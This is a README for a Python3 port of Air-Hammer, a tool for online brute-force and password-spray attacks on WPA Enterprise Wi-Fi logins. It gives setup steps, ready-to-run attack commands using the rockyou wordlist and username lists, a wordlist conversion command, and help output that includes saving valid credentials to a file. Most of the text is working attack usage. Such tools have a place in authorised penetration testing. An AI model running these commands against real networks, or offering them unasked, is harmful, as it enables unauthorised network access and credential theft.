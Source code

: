 Air-Hammer (Python3 version) - A WPA Enterprise horizontal brute-force attack tool
==========

This tool was originally developed by **Wh1t3Rh1n0** and all credit goes to him. The original is available [HERE](https://github.com/Wh1t3Rh1n0/air-hammer).



Usage
-----

 ```bash
git clone https://github.com/player23-0/air-hammer.git
cd air-hammer
python3 -m venv ~/myenv
source ~/myenv/bin/activate
pip install wpa_supplicant
 ```
**Password Bruteforce**:
```bash
echo 'CONTOSO\\test' > test.user
sudo /home/kali/myenv/bin/python air-hammer.py -i wlan3 -e wifi-corp -p /usr/share/wordlists/rockyou-utf8.txt -u test.user
```

**Username Bruteforce/ Password Spray**:
```bash
sudo /home/kali/myenv/bin/python air-hammer.py -i wlan3 -e wifi-corp -P 12345678 -u top-usernames-shortlist.txt
```
Things to note:
- Make sure to use the full path to the Python executable within the virtual environment: /home/kali/myenv/bin/python
- It might not accept the standard rockyou.txt, convert rockyou.txt to utf8:
  ```bash
  iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt -o rockyou-utf8.txt
  ```



The `-h` or `--help` flags can be used to display Air-Hammer's usage instructions.

```
root@kali:~# ./air-hammer.py --help
usage: air-hammer.py -i interface -e SSID -u USERFILE [-P PASSWORD]
                     [-p PASSFILE] [-s line] [-w OUTFILE] [-1] [-t seconds]

Perform an online, horizontal dictionary attack against a WPA Enterprise
network.

optional arguments:
  -i interface  Wireless interface (default: None)
  -e SSID       SSID of the target network (default: None)
  -u USERFILE   Username wordlist (default: None)
  -P PASSWORD   Password to try on each username (default: None)
  -p PASSFILE   List of passwords to try for each username (default: None)
  -s line       Optional start line to resume attack. May not be used with a
                password list. (default: 0)
  -w OUTFILE    Save valid credentials to a CSV file (default: None)
  -1            Stop after the first set of valid credentials are found
                (default: False)
  -t seconds    Seconds to sleep between each connection attempt (default:
                0.5)
```

